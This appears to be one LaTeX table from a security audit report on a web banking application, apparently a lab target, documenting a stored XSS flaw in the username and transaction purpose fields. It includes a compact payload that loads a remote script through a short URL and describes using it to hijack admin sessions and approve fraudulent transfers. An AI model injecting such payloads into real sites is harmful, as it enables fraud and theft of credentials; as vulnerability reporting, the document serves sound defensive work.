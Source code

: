 \begin{tabular}{l|p{10cm}}
\textbf{Observation} & Stored XSS can be injected via the username when registering and into the purpose field when making transactions. The email used for registration, however, is checked for validity. User names can't be longer than 32 signs. This is just enough to inject something like \texttt{<script src=//bit.ly/1MvAdrm>}. Users who register after this exploit has been used won't be shown, since the end tag is missing. For the transaction's description there is more space, but an account is needed. \\
\textbf{Discovery} & TODO\\
\textbf{Impact} & Using this it's possible to e.g. automatically accept payments of over 10000 as soon as an admin opens the "Approve Transfers" page. Given a user's TAN, it's also possible to transfer their money into one's own account by sending them a manipulated transaction. The manipulated transaction just has to include code that creates a transaction in the victim's name. Furthermore, it's possible to steal sessions or, by injecting fake login forms even credentials of admins. By injecting into the username, the attacker can also auto-accept themselves as real user as soon as an admin opens the "Approve Registrations" tab. \\
\textbf{Likelihood} & High \\
\textbf{Access Vector} & Network \\
\textbf{Access Complexity} & Low\\
\textbf{Privileges Required} & N/L: None for the registration XSS, Low user priviledges for XSS in transactions\\
\textbf{User Interaction} & Yes \\
\textbf{Scope} & Unchanged \\
\textbf{Confidentiality} & High \\
\textbf{Intigrity} & High\\
\textbf{Availability} & Low \\
\end{tabular}

\subsubsection*{SecureBank}


